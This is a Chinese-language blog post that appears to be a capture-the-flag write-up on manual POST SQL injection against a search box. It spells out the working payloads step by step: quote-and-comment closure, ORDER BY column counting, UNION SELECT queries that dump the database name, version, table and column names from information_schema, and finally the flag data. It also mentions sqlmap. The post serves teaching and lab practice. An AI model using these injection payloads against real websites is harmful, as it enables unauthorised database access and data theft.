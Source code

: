 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
    
---
```


## 原理:

简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为`http://www.xxx.com?test=123` ，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

**一个简单的输入搜索框**


## 考察点：
**sql注入中的post注入。**

一般有两种方式：

第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

第二种方式，通过手工注入，构造`payload`，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：

1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

2.Post data 框 输入`search='`，发现页面出错，可知存在注入的可能。继续输入`search=' and 1=1`，发现依然报错，`search=' and 1=1#` 发现变回正常页面。证明存在注入点，可用'  #进行闭合。

如何理解所构造的payload？


OK,简单的解释一下SQL语句.我们搜索的内容是 `' and 1=1 # `,代入到数据库的语句是:` select * from XXX where search = ' ' and 1=1 #'`，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:`select * from XXX where content = ' ' and 1=1`,这个语句理解就很简单了。

3.用`order by` 查询当前页面连接的列名个数：`search=' order by 1# `页面返回正常 ，直到4，页面开始出错，说明有3个。

4.使用`union` 联合查询 显错点，输出点，语句：`search='  union select 1,2,3# `，页面爆出显位2，3。

5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造`search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# `,得到数据库名为news。

6.接着获取表名，构造`search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # `，得到表名为**f1agfl4gher3。**
 注意：这里需要把数据库名称`news`做了一个16进制Hex编码，编码之后为`0x6E657773 `。

7.同理获取列名：`search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# ` ，得到列名为**h3r31sfl4g。**

8.最后获取数据，`search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # `，得到flag！

**flag{sql_ information_ schema_ hack}**





[参考链接（一）](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)

[参考链接（二）](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
